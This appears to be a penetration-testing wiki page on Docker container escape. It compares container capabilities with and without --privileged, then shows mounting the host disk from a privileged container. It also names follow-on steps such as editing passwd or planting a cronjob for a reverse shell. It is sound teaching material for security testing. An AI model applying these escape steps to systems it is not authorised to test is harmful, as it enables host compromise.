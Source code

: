 # Containerisation



## Docker

If you have code-execution in a host with docker installed, and have the appropriate permissions to use it, then you can escalate your permissions fairly trivially.  The process via the docker group is explained in the [Linux Privilege Escalation](https://booj.gitbook.io/virgil/linux/privilege-escalation#docker) section.

### docker.sock

### --privileged

The following shows the output of a regular container's `/sbin/capsh` output:

```text
root@987553478e0f:/# /sbin/capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

The next is from a container spawned with the `--privileged` flag:

```text
root@ad87033b28fe:/# /sbin/capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=
```

If you see `CAP_SYS_ADMIN`, then congratulations, you've won.  The easiest way to exploit this is to simply mount the whole disk and browse in that manner:

```text
root@7f6762c86d98:/# mount /dev/sda1 /mnt
root@7f6762c86d98:/# cd /mnt
root@7f6762c86d98:/mnt# ls
cache	    empty	     lib    lost+found	swap
cni	    etc		     local  nfs		tmp
containerd  kubeadm	     lock   run		transfused_start.log
docker	    kubelet-plugins  log    spool
```

If we do this on an unprivileged container, we see the following:

```text
root@987553478e0f:/# mount /dev/sda1 /mnt
mount: /mnt: permission denied.
```

Common exploitation methods from this point on include editing the passwd file, or injecting a malicious cronjob to start services or return a reverse shell.



{% embed url="https://ericchiang.github.io/post/containers-from-scratch/" %}

[https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/](https://kinvolk.io/blog/2018/04/towards-unprivileged-container-builds/)

